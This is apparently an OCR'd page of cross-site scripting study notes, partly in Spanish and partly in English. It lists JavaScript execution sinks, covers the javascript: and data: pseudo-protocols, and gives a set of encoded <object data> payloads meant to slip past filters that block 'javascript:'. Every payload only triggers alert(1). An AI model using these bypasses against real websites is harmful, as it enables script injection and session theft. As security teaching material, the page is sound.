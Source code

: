 ### Execution Sinks

* Técnicamente, las funciones que analizan la cadena como código JavaScript se llaman sumideros de ejecución, y JavaScript ofrece varias alternativas.

Some Sinks:

```js
setTimeout("JSCode") //all browsers
setInterval("JSCode") //all browsers
setImmediate("JSCode") //IE 10+
Function("JSCode") //all browsers

# moreover: https://code.google.com/p/domxsswiki/wiki/ExecutionSinks
```

Variación del lavabo de la Función:

```js
[].constructor.constructor(alert(1))
```

|object | array | function | XSS vector|

### Pseudo-protocols

**javascript:** es un esquema URI poco aficional, comúnmente conocido como un pseudo-protocolo.

* javascript followerd by (:) is usually blocked

Example:

```js
<a href="javascript:alert(1)"/>    " //blocked
# javascript: is not needed on event handlers; SO, we should avoid using it.
```

Bypass examples:

```js
<object data="JaVScRiPt:alert(1)">
<object data="javascript&colon;:alert(1)">
<object data="java
script:alert(1)">
<object data="javascript&#x003A;alert(1)">
<object data="javascript&#58;alert(1)">
<object data="&#x6A;avascript:alert(1)">
<object data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;alert(1)">
```

* Además de **javascript:**, también hay **data:** y la exclusiva de IE **vbscript:**

Data URI scheme:

```js
data:[<mediatype>][;base64],<data>

# mediatype is usually 'text/html'
```
